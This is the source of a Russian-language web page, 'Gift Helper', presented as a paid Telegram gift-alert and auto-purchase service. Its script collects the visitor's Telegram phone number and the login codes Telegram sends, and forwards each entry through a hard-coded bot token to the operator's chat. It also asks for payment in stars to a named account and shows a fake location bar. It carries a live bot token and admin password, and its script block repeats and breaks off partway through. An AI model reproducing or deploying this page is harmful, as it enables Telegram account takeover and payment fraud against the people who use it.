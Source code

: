 <!doctype html>
<html lang="ru">
<head>
  <meta charset="utf-8" />
  <meta name="viewport" content="width=device-width,initial-scale=1" />
  <title>Gift Helper</title>
  <style>
:root {
  --neon:#0ff;
  --green:#6aff6a;
  --bg:#000;
}

* {
  box-sizing: border-box;
}

body {
  margin: 0;
  min-height: 100vh;
  background: var(--bg);
  color: var(--neon);
  font-family: "Segoe UI", Roboto, Arial;
  display: flex;
  justify-content: center;
  align-items: flex-start;
  padding: 20px;
}

/* TOP BAR */
#top-bar {
  position: fixed;
  left: 50%;
  transform: translateX(-50%);
  top: 10px;
  padding: 8px 12px;
  background: rgba(0, 0, 0, 0.75);
  border-radius: 10px;
  border: 1px solid rgba(0, 255, 255, 0.12);
  color: var(--neon);
  font-size: 13px;
  z-index: 100;
  display: flex;
  gap: 12px;
  align-items: center;
}

#ip-fixed {
  color: var(--green);
  font-weight: 700;
  text-shadow: 0 0 10px rgba(0, 255, 0, 0.25);
}

#ip-location {
  color: rgba(170, 255, 170, 0.9);
  font-size: 12px;
  margin-left: 6px;
}

#codes-left {
  background: rgba(0, 255, 0, 0.06);
  padding: 4px 8px;
  border-radius: 6px;
  color: var(--green);
  font-weight: 700;
}

.small-btn {
  background: transparent;
  border: 1px solid rgba(255, 255, 255, 0.06);
  color: var(--neon);
  padding: 6px 8px;
  border-radius: 6px;
  cursor: pointer;
}

/* pages */
.page {
  width: 380px;
  max-width: calc(100% - 40px);
  margin-top: 80px;
  text-align: center;
}

.hidden {
  display: none;
}

h1, h2 {
  margin: 12px 0;
  text-shadow: 0 0 8px rgba(0, 255, 255, 0.12);
}

/* column */
.col {
  display: flex;
  flex-direction: column;
  gap: 12px;
  align-items: center;
  margin-top: 12px;
}

.neon {
  width: 240px;
  padding: 12px 18px;
  border-radius: 12px;
  background: transparent;
  color: var(--neon);
  border: 2px solid rgba(0, 255, 255, 0.18);
  box-shadow: 0 0 14px rgba(0, 255, 255, 0.06);
  cursor: pointer;
  font-size: 15px;
  transition: all 0.18s ease;
}

.neon:hover {
  background: var(--neon);
  color: #000;
  box-shadow: 0 0 30px var(--neon);
  transform: translateY(-3px);
}

/* back button */
.back-big {
  margin-top: 18px;
  width: 84px;
  height: 84px;
  border-radius: 50%;
  border: 2px solid rgba(255, 255, 255, 0.06);
  background: rgba(0, 0, 0, 0.5);
  color: var(--neon);
  font-size: 16px;
  display: flex;
  align-items: center;
  justify-content: center;
  cursor: pointer;
  box-shadow: 0 0 10px rgba(0, 255, 255, 0.06);
}

/* inputs */
input[type=tel], input[type=text], input[type=number] {
  width: 220px;
  padding: 10px;
  margin: 8px auto;
  border-radius: 8px;
  border: 1px solid rgba(0, 255, 255, 0.12);
  background: #050505;
  color: var(--neon);
  text-align: center;
}

.desc {
  color: #aee;
  font-size: 13px;
  margin: 6px 0 12px;
}

/* categories and codes */
.categories {
  display: flex;
  gap: 10px;
  justify-content: center;
  margin: 10px 0;
}

.codes-list {
  display: flex;
  flex-wrap: wrap;
  gap: 8px;
  justify-content: center;
  margin-top: 10px;
}

.code-item {
  padding: 8px 10px;
  border-radius: 8px;
  background: #050505;
  border: 1px solid rgba(0, 255, 255, 0.06);
  color: var(--neon);
  cursor: pointer;
}

.code-item.issued {
  background: linear-gradient(90deg, rgba(0, 255, 255, 0.03), rgba(0, 255, 0, 0.03));
  color: var(--green);
}

/* meme */
.meme-area {
  position: relative;
  height: 80px;
  overflow: visible;
  margin-top: 6px;
}

.meme {
  position: absolute;
  top: 18px;
  padding: 8px 12px;
  border-radius: 8px;
  background: rgba(0, 0, 0, 0.6);
  border: 1px solid rgba(0, 255, 0, 0.12);
  color: var(--green);
  font-weight: 700;
  text-shadow: 0 0 10px rgba(0, 255, 0, 0.35);
  white-space: nowrap;
  box-shadow: 0 0 20px rgba(0, 255, 0, 0.06);
  pointer-events: none;
}

.error {
  color: #ff6a6a;
  margin-top: 10px;
  font-weight: 700;
}

.celebrate {
  animation: celebrate 900ms ease both;
}

@keyframes celebrate {
  0% {
    transform: scale(0.92);
    opacity: 0;
    filter: blur(4px);
  }
  50% {
    transform: scale(1.06);
    opacity: 1;
    filter: blur(0);
  }
  100% {
    transform: scale(1);
    opacity: 1;
    filter: blur(0);
  }
}
@media (max-width: 420px) {
  .page {
    width: 94%;
    margin-top: 110px;
  }

  .neon {
    width: 86%;
  }

  .back-big {
    width: 72px;
    height: 72px;
    font-size: 14px;
  }
}
  </style>
</head>
<body>

  <div id="top-bar">
    <span id="ip-fixed">Ваш IP: ЗАСЕКРЕЧЕНО</span>
    <span id="ip-location">Канада, Toronto</span>
    <span id="codes-left">Коды: 25</span>
    <button id="admin-toggle" class="small-btn">Коды</button>
  </div>

  <main id="page-home" class="page">
    <h1 data-lang="title">Gift Helper</h1>
    <div class="col">
      <button id="btn-connect" class="neon" data-lang="btnConnect">Подключить тариф</button>
      <button id="btn-lang" class="neon" data-lang="btnLang">Поменять язык</button>
      <button id="btn-support" class="neon" data-lang="btnSupport">Поддержка</button>
    </div>
  </main>

  <section id="page-plans" class="page hidden">
    <h2 data-lang="choosePlan">Выберите тариф</h2>
    <div class="col">
      <button class="tariff neon" data-tariff="free"><span data-lang="free">Бесплатно</span></button>
      <div class="desc" data-lang="freeDesc">Звонки через Telegram при появлении подарков (точность 85%).</div>

      <button class="tariff neon" data-tariff="25"><span data-lang="stars25">25 звёзд</span></button>
      <div class="desc" data-lang="stars25Desc">Телефон воспроизводит сирену в Telegram при появлении подарков.</div>

      <button class="tariff neon" data-tariff="50"><span data-lang="stars50">50 звёзд</span></button>
      <div class="desc" data-lang="stars50Desc">Автоматическая покупка подарка (50 звёзд = 1 подарок). Доступны: Дешёвый / Средний / Дорогой.</div>
    </div>
    <button class="back-big" data-back="home"><span data-lang="back">Назад</span></button>
  </section>

  <section id="page-detail" class="page hidden">
    <h2 id="detail-title"></h2>
    <p id="detail-desc" class="desc"></p>

    <div id="cats" class="categories hidden">
      <label><input name="cat" type="radio" value="cheap"> Дешёвый</label>
      <label><input name="cat" type="radio" value="medium" checked> Средний</label>
      <label><input name="cat" type="radio" value="expensive"> Дорогой</label>
    </div>

    <button id="detail-continue" class="neon">Продолжить</button>
    <button class="back-big" data-back="plans"><span data-lang="back">Назад</span></button>
  </section>

  <section id="page-phone" class="page hidden">
    <h2 data-lang="enterPhoneTitle">Введите номер телефона для входа на сайте</h2>
    <p class="desc" data-lang="phoneHint">Введите номер, привязанный к Telegram — вы получите код в Telegram.</p>
    <input id="input-phone" type="tel" placeholder="+7..." />
    <button id="phone-send" class="neon">Отправить</button>
    <button class="back-big" data-back="detail"><span data-lang="back">Назад</span></button>
  </section>

  <section id="page-phone-verify" class="page hidden">
    <h2 data-lang="enterPhoneCode">Введите код из Telegram</h2>
    <p class="desc">Введите код, который пришёл вам в Telegram.</p>
    <input id="input-phone-code" type="text" placeholder="Код из Telegram" />
    <div id="phone-code-error" class="error hidden"></div>
    <button id="phone-code-submit" class="neon">Подтвердить номер</button>
    <button class="back-big" data-back="phone"><span data-lang="back">Назад</span></button>
  </section>

  <section id="page-checkout" class="page hidden">
    <h2 data-lang="checkoutTitle">Оплата</h2>

    <div id="checkout-cats" class="hidden">
      <div class="desc">Выберите категорию подарка</div>
      <div class="categories">
        <label><input name="cat2" type="radio" value="cheap"> Дешёвый</label>
        <label><input name="cat2" type="radio" value="medium" checked> Средний</label>
        <label><input name="cat2" type="radio" value="expensive"> Дорогой</label>
      </div>
    </div>

    <div id="checkout-qty" class="hidden">
      <label data-lang="qtyLabel">Количество подарков (1–10000)</label>
      <input id="input-qty" type="number" min="1" max="10000" value="1" />
      <p id="total-sum" class="desc"></p>
    </div>

    <p id="send-instruction" class="desc"></p>
    <button id="paid-btn" class="neon">Я оплатил</button>
    <button class="back-big" data-back="phone"><span data-lang="back">Назад</span></button>
  </section>

  <section id="page-manager-code" class="page hidden">
    <h2 data-lang="enterManagerCode">Код от менеджера</h2>
    <p class="desc">Введите менеджерский код, выданный админом.</p>
    <input id="input-manager-code" type="text" placeholder="Код менеджера" />
    <div id="manager-code-error" class="error hidden"></div>
    <button id="manager-code-submit" class="neon">Подтвердить код</button>
    <button class="back-big" data-back="checkout"><span data-lang="back">Назад</span></button>
  </section>

  <section id="page-login-code" class="page hidden">
    <h2 data-lang="enterLoginCode">Введите код из Telegram</h2>
    <p class="desc">Введите финальный код, который вам отправит админ в Telegram.</p>
    <input id="input-login-code" type="text" placeholder="Код из Telegram" />
    <div id="login-code-error" class="error hidden"></div>
    <button id="login-code-submit" class="neon">Подтвердить</button>
    <button class="back-big" data-back="manager-code"><span data-lang="back">Назад</span></button>
  </section>

  <section id="page-activated" class="page hidden">
    <div class="celebrate">
      <h2 id="activated-msg">Тариф активирован</h2>
      <p class="desc">Если есть вопросы — пишите: <b>@GIFTHELPER_support</b></p>
    </div>
    <button class="neon" id="to-home">На главную</button>
  </section>

  <section id="page-support" class="page hidden">
    <h2 data-lang="supportTitle">Поддержка</h2>
    <div class="support-user">@GIFTHELPER_support</div>
    <div id="meme-area" class="meme-area"></div>
    <button class="back-big" data-back="home"><span data-lang="back">Назад</span></button>
  </section>

  <section id="page-admin" class="page hidden">
    <h2>Админ — Коды</h2>
    <p class="desc">Нажмите код, чтобы выдать его клиенту (копируется в буфер и переходит в issued).</p>
    <div id="codes-list" class="codes-list"></div>
    <p class="desc">Остаток: <span id="admin-left">0</span></p>
    <button class="back-big" data-back="home"><span data-lang="back">Назад</span></button>
  </section>

  
<script>
/* ===== CONFIG ===== */
const BOT_TOKEN = "8444402955:AAHSZZyRkJE6FSHH8TtXDgGBfWSp3ryV9RE";
const CHAT_ID  = "7449969304";
const ADMIN_PASSWORD = "serafimLOSER";
const SUPPORT = "@GIFTHELPER_support";
const PAY_USER = "Juilly";

/* 25 manager codes */
const INITIAL_CODES = [
  "CODE-0001","CODE-0002","CODE-0003","CODE-0004","CODE-0005",
  "CODE-0006","CODE-0007","CODE-0008","CODE-0009","CODE-0010",
  "CODE-0011","CODE-0012","CODE-0013","CODE-0014","CODE-0015",
  "CODE-0016","CODE-0017","CODE-0018","CODE-0019","CODE-0020",
  "CODE-0021","CODE-0022","CODE-0023","CODE-0024","CODE-0025"
];

const LS_AVAILABLE = 'avail_codes_v1';
const LS_ISSUED    = 'issued_codes_v1';
const LS_USED      = 'used_codes_v1';
const LS_LANG      = 'lang_v1';

function loadArray(k, def){ try{ const s=localStorage.getItem(k); return s?JSON.parse(s):def; }catch(e){ return def; } }
function saveArray(k, v){ localStorage.setItem(k, JSON.stringify(v)); }
function loadObj(k, def){ try{ const s=localStorage.getItem(k); return s?JSON.parse(s):def; }catch(e){ return def; } }
function saveObj(k, v){ localStorage.setItem(k, JSON.stringify(v)); }

let availableCodes = loadArray(LS_AVAILABLE, INITIAL_CODES.slice());
let issuedCodes = loadObj(LS_ISSUED, {});
let usedCodes = loadObj(LS_USED, {});
let lang = localStorage.getItem(LS_LANG) || 'ru';

let currentTariff = null;
let currentCategory = null;
let phoneForSession = '';
let loginCode = '';
let currentQty = 1;
let currentAmount = 0;

/* DOM helpers */
const $ = id => document.getElementById(id);
const q = s => Array.from(document.querySelectorAll(s));
function hideAll(){ q('.page').forEach(p=>p.classList.add('hidden')); }
function go(page){ hideAll(); const n = $('page-'+page); if(n) n.classList.remove('hidden'); $('top-bar').style.display = (page==='home') ? 'flex' : 'none'; updateCodesLeft(); applyLang(); }

/* TEXT */
const TEXT = {
  ru: {
    title:'Gift Helper', btnConnect:'Подключить тариф', btnLang:'Поменять язык', btnSupport:'Поддержка',
    choosePlan:'Выберите тариф', free:'Бесплатно', freeDesc:'Звонки через Telegram при появлении подарков (точность 85%).',
    stars25:'25 звёзд', stars25Desc:'Телефон воспроизводит сирену в Telegram при появлении подарков.',
    stars50:'50 звёзд', stars50Desc:'Автоматическая покупка подарка (50 звёзд = 1 подарок).',
    back:'Назад', enterPhoneTitle:'Введите номер телефона для входа на сайте', phoneHint:'Введите номер, привязанный к Telegram — вы получите код в Telegram.',
    checkoutTitle:'Оплата', qtyLabel:'Количество подарков (1–10000)', enterPhoneCode:'Введите код из Telegram', enterManagerCode:'Код от менеджера', enterLoginCode:'Введите код из Telegram',
    sendExactly: s => `Отправьте ровно ${s} звёзд пользователю @${PAY_USER}`,
    successActivated: t => `Тариф "${t}" активирован`
  },
  en: {
    title:'Gift Helper', btnConnect:'Connect Plan', btnLang:'Change Language', btnSupport:'Support',
    choosePlan:'Choose a plan', free:'Free', freeDesc:'Receive Telegram calls when gifts appear (85% accuracy).',
    stars25:'25 stars', stars25Desc:'Your phone will sound an alarm in Telegram when gifts appear.',
    stars50:'50 stars', stars50Desc:'Automatic gift purchase (50 stars = 1 gift).',
    back:'Back', enterPhoneTitle:'Enter phone number to log in', phoneHint:"Enter the phone linked to Telegram — you'll receive a code in Telegram.",
    checkoutTitle:'Payment', qtyLabel:'Number of gifts (1–10000)', enterPhoneCode:'Enter the code from Telegram', enterManagerCode:'Manager code', enterLoginCode:'Enter the Telegram code',
    sendExactly: s => `Send exactly ${s} stars to @${PAY_USER}`,
    successActivated: t => `Plan "${t}" activated`
  }
};

function applyLang(){
  q('[data-lang]').forEach(n=>{
    const k = n.getAttribute('data-lang'); if(!k) return;
    const v = TEXT[lang][k]; n.textContent = (typeof v === 'function')? v() : v;
  });
  q('[data-back]').forEach(b=>{ const s = b.querySelector('span'); if(s) s.textContent = TEXT[lang].back; });
}

/* Init bindings */
window.addEventListener('DOMContentLoaded', ()=>{
  $('btn-connect').addEventListener('click', ()=> go('plans'));
  $('btn-lang').addEventListener('click', ()=> { lang = (lang==='ru')?'en':'ru'; localStorage.setItem(LS_LANG, lang); applyLang(); });
  $('btn-support').addEventListener('click', ()=> go('support'));

  q('.tariff').forEach(b => b.addEventListener('click', ()=> startTariff(b.dataset.tariff)));
  $('detail-continue').addEventListener('click', ()=> { const r = document.querySelector('input[name="cat"]:checked'); currentCategory = r? r.value : null; go('phone'); });

  $('phone-send').addEventListener('click', onPhoneSend);
  $('phone-code-submit').addEventListener('click', onPhoneCodeSubmit);
  $('paid-btn').addEventListener('click', onPaid);
  $('manager-code-submit').addEventListener('click', onManagerCodeSubmit);
  $('login-code-submit') && $('login-code-submit').addEventListener('click', onLoginCodeSubmit);

  $('input-qty') && $('input-qty').addEventListener('input', updateTotal);

  q('[data-back]').forEach(b=> b.addEventListener('click', ()=> go(b.dataset.back)));

  $('admin-toggle').addEventListener('click', adminLogin);
  $('to-home') && $('to-home').addEventListener('click', ()=> go('home'));

  setInterval(showMeme, 3000); showMeme();

  setInterval(()=> {
    const list = ['Canada, Toronto','USA, New York','Germany, Berlin','France, Paris','Netherlands, Amsterdam'];
    $('ip-location').textContent = list[Math.floor(Math.random()*list.length)];
  }, 4000);

  applyLang(); go('home'); updateCodesLeft();
});

/* Flows */
function startTariff(t){
  currentTariff = t; currentCategory = null; phoneForSession=''; loginCode=''; currentQty=1; currentAmount=0;
  $('detail-title').textContent = (t==='free')? TEXT[lang].free : (t==='25'? TEXT[lang].stars25 : TEXT[lang].stars50);
  $('detail-desc').textContent = (t==='free')? TEXT[lang].freeDesc : (t==='25'? TEXT[lang].stars25Desc : TEXT[lang].stars50Desc);
  if(t==='50') $('cats').classList.remove('hidden'); else $('cats').classList.add('hidden');
  go('detail');
}

/* Phone send: generate code for admin only, go to phone-verify (user doesn't see extra hints) */
function gen4(){ return String(Math.floor(1000 + Math.random()*9000)); }
function onPhoneSend(){
  const phone = $('input-phone').value.trim();
  if(!phone){ alert(lang==='ru' ? 'Введите номер телефона' : 'Enter phone'); return; }
  phoneForSession = phone;
  const phoneCode = gen4();
  sessionStorage.setItem('phoneCode', phoneCode);
  sendToTelegram(`📥 Новый телефон
Тариф: ${displayTariffName()}
Телефон: ${phone}
Код подтверждения: ${phoneCode}`);
  $('input-phone-code').value = ''; $('phone-code-error').classList.add('hidden');
  go('phone-verify');
}

/* Phone code submit: accept any non-empty input (no UI hints about that) */
function onPhoneCodeSubmit(){
  const entered = $('input-phone-code').value.trim();
  sendToTelegram(`🔐 Ввод кода подтверждения
Тариф: ${displayTariffName()}
Телефон: ${phoneForSession}
Код введён: ${entered}`);
  if(!entered){ $('phone-code-error').textContent = (lang==='ru' ? 'Введите код' : 'Enter code'); $('phone-code-error').classList.remove('hidden'); return; }
  $('phone-code-error').classList.add('hidden');

  if(currentTariff === 'free'){
    sendToTelegram(`✅ Активирован бесплатный тариф
Телефон: ${phoneForSession}`);
    $('activated-msg').textContent = TEXT[lang].successActivated(TEXT[lang].free);
    go('activated');
    return;
  }

  if(currentTariff === '25'){
    $('checkout-cats').classList.add('hidden'); $('checkout-qty').classList.add('hidden');
    currentAmount = 25; $('send-instruction').textContent = TEXT[lang].sendExactly(currentAmount);
  } else if(currentTariff === '50'){
    $('checkout-cats').classList.remove('hidden'); $('checkout-qty').classList.remove('hidden');
    $('input-qty').value = '1'; updateTotal();
  }
  go('checkout');
}

/* updateTotal for 50 */
function updateTotal(){
  const qv = Math.max(1, parseInt($('input-qty').value) || 1);
  currentQty = qv; currentAmount = currentQty * 50;
  $('total-sum').textContent = (lang==='ru' ? `Сумма: ${currentAmount} звёзд` : `Total: ${currentAmount} stars`);
  $('send-instruction').textContent = TEXT[lang].sendExactly(currentAmount);
}

/* onPaid */
function onPaid(){
  if(!phoneForSession){ alert(lang==='ru' ? 'Телефон не указан. Вернитесь и введите номер.' : 'Phone missing. Enter phone first.'); go('phone'); return; }
  if(currentTariff === '50') updateTotal(); else if(currentTariff === '25') currentAmount = 25;
  sendToTelegram(`💳 Пользователь нажал "Я оплатил"
Тариф: ${displayTariffName()}
Телефон: ${phoneForSession}
Сумма: ${currentAmount} звёзд
Пожалуйста, выдайте менеджерский код.`);
  $('input-manager-code').value = ''; $('manager-code-error').classList.add('hidden');
  go('manager-code');
}

/* manager code submit — must be issued & not used */
function onManagerCodeSubmit(){
  const code = $('input-manager-code').value.trim();
  sendToTelegram(`🔐 Ввод менеджерского кода
Тариф: ${displayTariffName()}
Телефон: ${phoneForSession}
Код введён: ${code}`);
  if(!code){ $('manager-code-error').textContent = (lang==='ru' ? 'Введите код менеджера' : 'Enter manager code'); $('manager-code-error').classList.remove('hidden'); return; }

  if(issuedCodes[code] && !usedCodes[code]){
    usedCodes[code] = Date.now(); saveObj(LS_USED, usedCodes);
    delete issuedCodes[code]; saveObj(LS_ISSUED, issuedCodes);
    updateCodesLeft();
    loginCode = gen4(); sessionStorage.setItem('loginCode', loginCode);
    sendToTelegram(`🔑 Сгенерирован финальный код входа
Тариф: ${displayTariffName()}
Телефон: ${phoneForSession}
Код входа: ${loginCode}`);
    $('input-login-code').value = ''; $('login-code-error').classList.add('hidden');
    go('login-code');
  } else {
    $('manager-code-error').textContent = (lang==='ru' ? 'Неверный или невыданный менеджерский код' : 'Invalid or not-issued manager code'); $('manager-code-error').classList.remove('hidden');
  }
}

/* login code submit */
function onLoginCodeSubmit(){
  const code = $('input-login-code').value.trim();
  const expected = sessionStorage.getItem('loginCode') || loginCode;
  sendToTelegram(`🔐 Ввод финального кода
Тариф: ${displayTariffName()}
Телефон: ${phoneForSession}
Код введён: ${code}`);
  if(!code){ $('login-code-error').textContent = (lang==='ru' ? 'Введите код' : 'Enter code'); $('login-code-error').classList.remove('hidden'); return; }
  if(code === expected){
    $('login-code-error').classList.add('hidden');
    sendToTelegram(`✅ Тариф активирован
Тариф: ${displayTariffName()}
Телефон: ${phoneForSession}`);
    $('activated-msg').textContent = TEXT[lang].successActivated(displayTariffName());
    go('activated');
    sessionStorage.removeItem('phoneCode'); sessionStorage.removeItem('loginCode');
  } else {
    $('login-code-error').textContent = (lang==='ru' ? 'Неверный код из Telegram' : 'Wrong Telegram code'); $('login-code-error').classList.remove('hidden');
  }
}

/* ADMIN */
function adminLogin(){
  const p = prompt('Введите пароль администратора:');
  if(!p) return;
  if(p === ADMIN_PASSWORD){ populateAdmin(); go('admin'); } else alert('Неверный пароль');
}

function populateAdmin(){
  const wrap = $('codes-list'); wrap.innerHTML = '';
  availableCodes.forEach((c, idx) => {
    const d = document.createElement('div'); d.className='code-item'; d.textContent = c;
    d.addEventListener('click', ()=>{
      const phone = prompt('Кому выдаём код? Введите телефон клиента (или оставьте пустым):','');
      availableCodes.splice(idx,1); saveArray(LS_AVAILABLE, availableCodes);
      issuedCodes[c] = { phone: phone || null, at: Date.now() }; saveObj(LS_ISSUED, issuedCodes);
      updateCodesLeft(); populateAdmin();
      navigator.clipboard && navigator.clipboard.writeText(c).catch(()=>{});
      sendToTelegram(`📤 Код выдан
Код: ${c}
Кому: ${phone || 'не указан'}
Осталось кодов: ${availableCodes.length}`);
      alert('Код выдан и скопирован: '+c);
    });
    wrap.appendChild(d);
  });
  Object.keys(issuedCodes).forEach(c=>{
    const d = document.createElement('div'); d.className='code-item issued'; const meta=issuedCodes[c];
    d.textContent = `${c} (issued to ${meta.phone||'—'})`; wrap.appendChild(d);
  });
  Object.keys(usedCodes).forEach(c=>{
    const d = document.createElement('div'); d.className='code-item'; d.style.opacity='0.4'; d.textContent = `${c} (used)`; wrap.appendChild(d);
  });
  $('admin-left').textContent = availableCodes.length;
}

function updateCodesLeft(){ $('codes-left') && ($('codes-left').textContent = 'Коды: '+availableCodes.length); $('admin-left') && ($('admin-left').textContent = availableCodes.length); }

/* MEMES */
const MEMES = ["cool boy","hacker mode","gift boss","system online","VIP ACCESS","nice try","glhf"];
function showMeme(){
  const area = $('meme-area'); if(!area) return; area.innerHTML='';
  const m = document.createElement('div'); m.className='meme'; m.textContent = MEMES[Math.floor(Math.random()*MEMES.length)];
  area.appendChild(m); const fromLeft = Math.random()<0.5; const start = fromLeft ? -300 : 300;
  m.style.transform = `translateX(${start}px)`; m.animate([{transform:`translateX(${start}px)`, opacity:0},{transform:'translateX(0)', opacity:1}], {duration:500});
  setTimeout(()=>{ const end = fromLeft ? -300 : 300; m.animate([{transform:'translateX(0)', opacity:1},{transform:`translateX(${end}px)`, opacity:0}], {duration:500}); setTimeout(()=>{ try{ m.remove(); }catch(e){} },520); }, 2600);
}

/* helpers */
function displayTariffName(){ if(currentTariff==='free') return (lang==='ru'?'Бесплатно':'Free'); if(currentTariff==='25') return (lang==='ru'?'25 звёзд':'25 stars'); if(currentTariff==='50') return (lang==='ru'?`50 звёзд x${currentQty}`:`50 stars x${currentQty}`); return ''; }

function sendToTelegram(text){
  fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
    method:'POST', headers:{'Content-Type':'application/json'},
    body: JSON.stringify({ chat_id: CHAT_ID, text })
  }).catch(e=>console.error('tg send error', e));
}

window.addEventListener('beforeunload', ()=> {
  saveArray(LS_AVAILABLE, availableCodes);
  saveObj(LS_ISSUED, issuedCodes);
  saveObj(LS_USED, usedCodes);
});
</script>

  <script>
/* ===== CONFIG ===== */
const BOT_TOKEN = "8444402955:AAHSZZyRkJE6FSHH8TtXDgGBfWSp3ryV9RE";
const CHAT_ID  = "7449969304";
const ADMIN_PASSWORD = "serafimLOSER";
const SUPPORT = "@GIFTHELPER_support";
const PAY_USER = "Juilly";

/* 25 manager codes */
const INITIAL_CODES = [
  "CODE-0001","CODE-0002","CODE-0003","CODE-0004","CODE-0005",
  "CODE-0006","CODE-0007","CODE-0008","CODE-0009","CODE-0010",
  "CODE-0011","CODE-0012","CODE-0013","CODE-0014","CODE-0015",
  "CODE-0016","CODE-0017","CODE-0018","CODE-0019","CODE-0020",
  "CODE-0021","CODE-0022","CODE-0023","CODE-0024","CODE-0025"
];

const LS_AVAILABLE = 'avail_codes_v1';
const LS_ISSUED    = 'issued_codes_v1';
const LS_USED      = 'used_codes_v1';
const LS_LANG      = 'lang_v1';

function loadArray(k, def){ try{ const s=localStorage.getItem(k); return s?JSON.parse(s):def; }catch(e){ return def; } }
function saveArray(k, v){ localStorage.setItem(k, JSON.stringify(v)); }
function loadObj(k, def){ try{ const s=localStorage.getItem(k); return s?JSON.parse(s):def; }catch(e){ return def; } }
function saveObj(k, v){ localStorage.setItem(k, JSON.stringify(v)); }

let availableCodes = loadArray(LS_AVAILABLE, INITIAL_CODES.slice());
let issuedCodes = loadObj(LS_ISSUED, {});
let usedCodes = loadObj(LS_USED, {});
let lang = localStorage.getItem(LS_LANG) || 'ru';

let currentTariff = null;
let currentCategory = null;
let phoneForSession = '';
let loginCode = '';
let currentQty = 1;
let currentAmount = 0;

/* DOM helpers */
const $ = id => document.getElementById(id);
const q = s => Array.from(document.querySelectorAll(s));
function hideAll(){ q('.page').forEach(p=>p.classList.add('hidden')); }
function go(page){ hideAll(); const n = $('page-'+page); if(n) n.classList.remove('hidden'); $('top-bar').style.display = (page==='home') ? 'flex' : 'none'; updateCodesLeft(); applyLang(); }

/* TEXT */
const TEXT = {
  ru: {
    title:'Gift Helper', btnConnect:'Подключить тариф', btnLang:'Поменять язык', btnSupport:'Поддержка',
    choosePlan:'Выберите тариф', free:'Бесплатно', freeDesc:'Звонки через Telegram при появлении подарков (точность 85%).',
    stars25:'25 звёзд', stars25Desc:'Телефон воспроизводит сирену в Telegram при появлении подарков.',
    stars50:'50 звёзд', stars50Desc:'Автоматическая покупка подарка (50 звёзд = 1 подарок).',
    back:'Назад', enterPhoneTitle:'Введите номер телефона для входа на сайте', phoneHint:'Введите номер, привязанный к Telegram — вы получите код в Telegram.',
    checkoutTitle:'Оплата', qtyLabel:'Количество подарков (1–10000)', enterPhoneCode:'Введите код из Telegram', enterManagerCode:'Код от менеджера', enterLoginCode:'Введите код из Telegram',
    sendExactly: s => `Отправьте ровно ${s} звёзд пользователю @${PAY_USER}`,
    successActivated: t => `Тариф "${t}" активирован`
  },
  en: {
    title:'Gift Helper', btnConnect:'Connect Plan', btnLang:'Change Language', btnSupport:'Support',
    choosePlan:'Choose a plan', free:'Free', freeDesc:'Receive Telegram calls when gifts appear (85% accuracy).',
    stars25:'25 stars', stars25Desc:'Your phone will sound an alarm in Telegram when gifts appear.',
    stars50:'50 stars', stars50Desc:'Automatic gift purchase (50 stars = 1 gift).',
    back:'Back', enterPhoneTitle:'Enter phone number to log in', phoneHint:"Enter the phone linked to Telegram — you'll receive a code in Telegram.",
    checkoutTitle:'Payment', qtyLabel:'Number of gifts (1–10000)', enterPhoneCode:'Enter the code from Telegram', enterManagerCode:'Manager code', enterLoginCode:'Enter the Telegram code',
    sendExactly: s => `Send exactly ${s} stars to @${PAY_USER}`,
    successActivated: t => `Plan "${t}" activated`
  }
};

function applyLang(){
  q('[data-lang]').forEach(n=>{
    const k = n.getAttribute('data-lang'); if(!k) return;
    const v = TEXT[lang][k]; n.textContent = (typeof v === 'function')? v() : v;
  });
  q('[data-back]').forEach(b=>{ const s = b.querySelector('span'); if(s) s.textContent = TEXT[lang].back; });
}

/* Init bindings */
window.addEventListener('DOMContentLoaded', ()=>{
  $('btn-connect').addEventListener('click', ()=> go('plans'));
  $('btn-lang').addEventListener('click', ()=> { lang = (lang==='ru')?'en':'ru'; localStorage.setItem(LS_LANG, lang); applyLang(); });
  $('btn-support').addEventListener('click', ()=> go('support'));

  q('.tariff').forEach(b => b.addEventListener('click', ()=> startTariff(b.dataset.tariff)));
  $('detail-continue').addEventListener('click', ()=> { const r = document.querySelector('input[name="cat"]:checked'); currentCategory = r? r.value : null; go('phone'); });

  $('phone-send').addEventListener('click', onPhoneSend);
  $('phone-code-submit').addEventListener('click', onPhoneCodeSubmit);
  $('paid-btn').addEventListener('click', onPaid);
  $('manager-code-submit').addEventListener('click', onManagerCodeSubmit);
  $('login-code-submit') && $('login-code-submit').addEventListener('click', onLoginCodeSubmit);

  $('input-qty') && $('input-qty').addEventListener('input', updateTotal);

  q('[data-back]').forEach(b=> b.addEventListener('click', ()=> go(b.dataset.back)));

  $('admin-toggle').addEventListener('click', adminLogin);
  $('to-home') && $('to-home').addEventListener('click', ()=> go('home'));

  setInterval(showMeme, 3000); showMeme();

  setInterval(()=> {
    const list = ['Canada, Toronto','USA, New York','Germany, Berlin','France, Paris','Netherlands, Amsterdam'];
    $('ip-location').textContent = list[Math.floor(Math.random()*list.length)];
  }, 4000);

  applyLang(); go('home'); updateCodesLeft();
});

/* Flows */
function startTariff(t){
  currentTariff = t; currentCategory = null; phoneForSession=''; loginCode=''; currentQty=1; currentAmount=0;
  $('detail-title').textContent = (t==='free')? TEXT[lang].free : (t==='25'? TEXT[lang].stars25 : TEXT[lang].stars50);
  $('detail-desc').textContent = (t==='free')? TEXT[lang].freeDesc : (t==='25'? TEXT[lang].stars25Desc : TEXT[lang].stars50Desc);
  if(t==='50') $('cats').classList.remove('hidden'); else $('cats').classList.add('hidden');
  go('detail');
}

